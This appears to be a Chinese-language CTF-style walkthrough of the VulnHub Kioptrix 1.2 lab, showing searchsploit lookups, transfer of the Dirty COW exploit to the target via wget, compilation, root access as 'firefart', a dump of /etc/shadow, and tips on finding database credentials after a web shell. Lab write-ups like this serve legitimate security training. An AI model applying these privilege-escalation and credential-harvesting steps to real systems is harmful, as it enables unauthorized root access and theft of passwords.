Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation                   | linux_x86-64/local/44302.c
Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) - 'ptrace/sysret' Local Privilege Escalation        | linux_x86-64/local/34134.c
Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation                      | arm/local/31574.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalat | linux_x86-64/local/44299.c
Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2)             | linux_x86-64/local/26131.c
Linux Kernel < 3.8.x - open-time Capability 'file_ns_capable()' Local Privilege Escalation     | linux/local/25450.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service                   | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                   | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation              | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                                        | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                  | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                              | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                       | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                           | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                                 | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                         | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalat | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR  | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privileg | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                                        | linux/dos/44301.c
----------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No Results
                                                                                                                              
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ searchsploit linux kernel 2.6.24|grep 40839
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation  | linux/local/40839.c
                                                                                                                              
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ searchsploit linux/local/40839.c -m        
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    Codes: CVE-2016-5195
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/vulnhub/Kioptrix1.2/40839.c


                                                                                                                              
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ ls                      
40616.c  40839.c  nmap  web
                                                                                                                              
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ 
                                                                                                                              
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
192.168.200.156 - - [29/Apr/2026 08:15:24] "GET /40839.c HTTP/1.0" 200 -
Linux kali 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 29 08:00:40 2026 from 192.168.200.1
zsh: corrupt history file /home/kali/.zsh_history
```

server

```bash
www-data@Kioptrix3:/tmp$ wget 'http://192.168.200.142:8081/40839.c'
wget 'http://192.168.200.142:8081/40839.c'
--18:17:55--  http://192.168.200.142:8081/40839.c
           => `40839.c'
Connecting to 192.168.200.142:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,814 (4.7K) [text/x-csrc]

100%[====================================>] 4,814         --.--K/s             

18:17:55 (1.01 GB/s) - `40839.c' saved [4814/4814]
www-data@Kioptrix3:/tmp$ wget 'http://192.168.200.142:8081/40839.c'
wget 'http://192.168.200.142:8081/40839.c'
--18:17:55--  http://192.168.200.142:8081/40839.c
           => `40839.c'
Connecting to 192.168.200.142:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,814 (4.7K) [text/x-csrc]

100%[====================================>] 4,814         --.--K/s             

18:17:55 (1.01 GB/s) - `40839.c' saved [4814/4814]
www-data@Kioptrix3:/tmp$ ls
ls
40616.c  40839.c
www-data@Kioptrix3:/tmp$ 

www-data@Kioptrix3:/tmp$ gcc 40839.c -o exp
gcc 40839.c -o exp
40839.c:193:2: warning: no newline at end of file
/tmp/ccgHdB72.o: In function `generate_password_hash':
40839.c:(.text+0x16): undefined reference to `crypt'
/tmp/ccgHdB72.o: In function `main':
40839.c:(.text+0x4be): undefined reference to `pthread_create'
40839.c:(.text+0x4f4): undefined reference to `pthread_join'
collect2: ld returned 1 exit status
www-data@Kioptrix3:/tmp$ ls
ls
40616.c  40839.c
www-data@Kioptrix3:/tmp$ gcc -pthread 40839.c -o exp -lcrypt
gcc -pthread 40839.c -o exp -lcrypt
40839.c:193:2: warning: no newline at end of file
www-data@Kioptrix3:/tmp$ ls
ls
40616.c  40839.c  exp
www-data@Kioptrix3:/tmp$ ./exp 
./exp
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

su firefart
Password: 

firefart@Kioptrix3:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Kioptrix3:/tmp# whoami
whoami
firefart
firefart@Kioptrix3:/tmp# sudo -l
sudo -l
sudo: no passwd entry for root!
firefart@Kioptrix3:/tmp# 

firefart@Kioptrix3:/tmp# cat /etc/shadow
cat /etc/shadow
root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1:15082:0:99999:7:::
daemon:*:15075:0:99999:7:::
```

> 原本用40616，出了点问题

```bash
40616.c: In function 'procselfmemThread':
40616.c:99: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
40616.c: In function 'main':
40616.c:142: error: invalid use of undefined type 'struct stat'
40616.c:144: error: invalid use of undefined type 'struct stat'
40616.c:145: error: invalid use of undefined type 'struct stat'
40616.c:148: error: invalid use of undefined type 'struct stat'
40616.c:159:2: warning: no newline at end of file
www-data@Kioptrix3:/tmp$ ls
ls
40616.c
www-data@Kioptrix3:/tmp$ gcc 40616.c -o exploit
gcc 40616.c -o exploit
40616.c: In function 'procselfmemThread':
40616.c:99: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
40616.c: In function 'main':
40616.c:142: error: invalid use of undefined type 'struct stat'
40616.c:144: error: invalid use of undefined type 'struct stat'
40616.c:145: error: invalid use of undefined type 'struct stat'
40616.c:148: error: invalid use of undefined type 'struct stat'
40616.c:159:2: warning: no newline at end of file
```

## 攻击思维导图


整体流程如图所示，核心有三条线：

**左分支（主要试错路线）** 两次编译失败 → 第一次版本不兼容，第二次缺少编译参数，最终加上 `-pthread -lcrypt` 才成功

**右分支（并行快速验证）** `sudo -l` 是每次提权必查的第一步，本台靶机没有给 sudo 后门所以走了内核漏洞路线

**汇合点** 两条路最终都指向执行 Dirty COW → `su firefart` → root

---

**这次试错过程给你的 OSCP 方法论总结：**

1. `sudo -l` 永远是提权第一步，30秒排除最简单的情况
2. searchsploit 搜索时要匹配内核版本范围，不是精确匹配
3. 编译报错不代表 exploit 无效，先看错误类型再换参数或换版本
4. `undefined type` 错误 → 换版本；`undefined reference` 错误 → 加链接参数


### 1.3 红笔追加操作


# 4.总结


# 5.其他

### 为什么 gallery 目录有价值

#### 1. 它是一个独立的 CMS 应用

从首页源码里可以看到：

```text
"We've revamped our website for the new release of the new gallery CMS we made"
```

网站自己说了这是他们开发的 gallery 系统，**独立应用 = 独立数据库配置**。

#### 2. 任何 Web 应用都需要连接数据库

Gallery 要存图片信息、用户账号，就必须有一个配置文件告诉它：

```text
数据库在哪 / 用户名是什么 / 密码是什么
```

这个配置文件几乎 100% 存在。

#### 3. 配置文件命名有规律

常见名字就那几个：

```text
config.php
gconfig.php
database.php
db.php
settings.php
```

开发者习惯性命名，很好猜。

---

### 更通用的渗透思维

拿到 web shell 之后，找密码的优先级顺序：

```text
1. 数据库配置文件  ← 明文密码，最直接
2. 用户目录下的 .bash_history  ← 可能有人敲过密码
3. /etc/passwd 和 shadow  ← 系统账号
4. 应用的 session / log 文件  ← 可能泄露信息
```

**核心逻辑：开发者为了让程序自动连接数据库，密码必须以明文或可逆方式存在某个文件里。** 这是 Web 渗透中最稳定的信息来源之一。


dirtycow提权


### 红笔追加操作

发现cms 可以在cli中用searchsploit查，这样我觉得会更快一点


具体的利用文章可以用Google和GitHub去搜索 `<cms> exoloit`


拿下webshell后在网页后台看到有用的目录（具体为什么有用我不知道，可以去搜索一下 gallery），这里可以去访问这个后台，也就是说phpmyadmin中的密码应该对应的是这个，不是登入也的那个我就说怎么一直登入不进去，回去尝试一下。


